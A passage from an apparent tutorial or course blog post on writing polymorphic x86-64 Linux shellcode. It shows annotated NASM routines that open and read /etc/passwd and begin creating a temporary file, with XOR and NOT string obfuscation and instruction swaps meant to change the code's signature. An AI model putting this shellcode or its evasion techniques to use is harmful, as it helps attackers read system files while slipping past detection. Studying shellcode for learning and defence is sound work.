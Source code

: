     ; string "//etc/pa" xored
    mov rcx, 0x39c77f8ed1baa1c6
    xor rcx, rdi

    ; store the pointer to the string into RDI
    push rcx
    push rsp
    pop rdi

    ; invoke syscall open
    syscall</code></pre><figcaption>Opening the file <code>/etc/passwd</code></figcaption></figure><h3 id="reading-the-contents">Reading the contents</h3><p>For this routine I performed the same changes as before. In addition, I'm using the <code>XCHG</code> instruction instead of the <code>MOV</code> instruction you can find in the original shellcode after the call to <code>sys_open</code>.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">ReadPasswdFile:

    ; 1st argument of open: file descriptor of
    ; the file to read
    xchg rax, rdi

    ; clear RAX and RDX
    xor eax, eax
    cdq

    ; 2nd argument of read: base address of the
    ; buffer that will store the bytes read from
    ; the file
    mov rsi, rsp

    ; 3rd argument of read: maximum number of
    ; bytes to read
    ; set DX to 0xffff
    dec dx
    
    ; invoke syscall read
    syscall</code></pre><figcaption>Reading the contents of <code>/etc/passwd</code></figcaption></figure><p>Aside from that, I also changed the way the shellcode sets the register <code>DX</code> to the value <code>0xffff</code>.</p><p>Instead of hard-coding the value in the shellcode, I'm clearing the register <code>RDX</code> and decreasing <code>DX</code>, thus resulting in <code>0xffff</code>.</p><h3 id="creating-a-temporary-file">Creating a temporary file</h3><p>As mentioned previously, one way to decrease the number of bytes of the shellcode is to shorten the name of the temporary file, which in this case is <code>/tmp/outfile</code>.</p><p>In the end I decided against, since I managed to make the polymorphic shellcode smaller even without it.</p><p>If you take a look at the snippet below, you'll notice I replaced most of the <code>MOV</code> instructions with <code>PUSH</code> and <code>POP</code> alternatives.</p><p>I also obfuscated the string <code>/tmp/out</code> (leaving "file" in clear-text) using the <code>NOT</code> operator.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">CreateTempFile:

    ; save the number of bytes read into RCX
    ; (for later usage)
    mov rbx, rax

    ; save into R8 the pointer to the buffer
    ; containing the bytes read from the file
    push rsp
    pop r8
